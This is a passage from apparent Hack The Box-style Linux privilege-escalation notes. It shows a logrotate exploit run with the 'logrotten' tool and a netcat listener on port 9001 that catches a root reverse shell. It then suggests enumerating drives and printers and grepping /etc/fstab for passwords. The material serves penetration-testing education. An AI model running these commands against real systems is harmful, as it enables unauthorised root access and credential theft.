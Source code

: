 However, before running the exploit, we need to determine which option `logrotate` uses in `logrotate.conf`.

```shell-session
logger@nix02:~$ grep "create\|compress" /etc/logrotate.conf | grep -v "#"

create
```

In our case, it is the option: `create`. Therefore we have to use the exploit adapted to this function. After that, we have to start a listener on our VM, which waits for the target system's connection.

```shell-session
cyberslut@htb[/htb]$ nc -nlvp 9001

Listening on 0.0.0.0 9001
```

As a final step, we run the exploit with the prepared payload and wait for a reverse shell as a privileged user or root.

```shell-session
logger@nix02:~$ ./logrotten -p ./payload /tmp/tmp.log
```

```shell-session
...
Listening on 0.0.0.0 9001

Connection received on 10.129.24.11 49818
# id

uid=0(root) gid=0(root) groups=0(root)
```

Unmounted File Systems and Additional Drives: we can take a look at the drives and any shares on the system. We can use the lsblk command to enumerate information about block devices on the system (hard disks, USB drives, optical drives, etc.). If we discover and can mount an additional drive or unmounted file system, we may find sensitive files, passwords, or backups that can be leveraged for privesc

```shell-session
cyberslut@htb[/htb]$ lsblk

NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
sda      8:0    0   30G  0 disk 
├─sda1   8:1    0   29G  0 part /
├─sda2   8:2    0    1K  0 part 
└─sda5   8:5    0  975M  0 part [SWAP]
sr0     11:0    1  848M  0 rom  
```

The command `lpstat` can be used to find information about any printers attached to the system. If there are active or queued print jobs can we gain access to some sort of sensitive information?

We should also checked for mounted drives and unmounted drives. Can we mount an unmounted drive and gain access to sensitive data? Can we find any types of credentials in `fstab` for mounted drives by greping for common words such as password, username, credential, etc in `/etc/fstab`? 
